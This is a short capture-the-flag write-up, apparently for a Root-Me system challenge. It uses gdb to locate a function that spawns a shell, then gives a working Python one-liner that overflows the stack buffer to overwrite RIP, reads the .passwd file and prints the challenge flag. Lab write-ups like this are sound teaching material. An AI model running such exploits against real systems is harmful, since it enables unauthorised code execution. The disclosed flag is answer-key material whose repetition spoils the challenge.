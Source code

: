 ```(gdb) info functions
All defined functions:

Non-debugging symbols:
0x0000000000400498  _init
0x00000000004004c0  strlen@plt
0x00000000004004d0  printf@plt
0x00000000004004e0  execve@plt
0x00000000004004f0  __isoc99_scanf@plt
0x0000000000400500  _start
0x0000000000400530  _dl_relocate_static_pie
0x0000000000400540  deregister_tm_clones
0x0000000000400570  register_tm_clones
0x00000000004005b0  __do_global_dtors_aux
0x00000000004005e0  frame_dummy
0x00000000004005e7  callMeMaybe
0x0000000000400628  main
0x0000000000400690  __libc_csu_init
0x0000000000400700  __libc_csu_fini
0x0000000000400704  _fini
(gdb) 
```
We need to overwrite **RIP** with the address **0x00000000004005e7**.
```
app-systeme-ch35@challenge03:~$ (python -c 'print "A" * 280 + "\xe7\x05\x40\x00\x00\x00"' && cat -) | ./ch35 
Hello AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
cat .passwd
B4sicBufferOverflowExploitation
```


--------------------------------------------------------------------------------
### Resources

[Buffer Overflow buffer length - Stack Overflow](https://stackoverflow.com/questions/29594482/buffer-overflow-buffer-length)
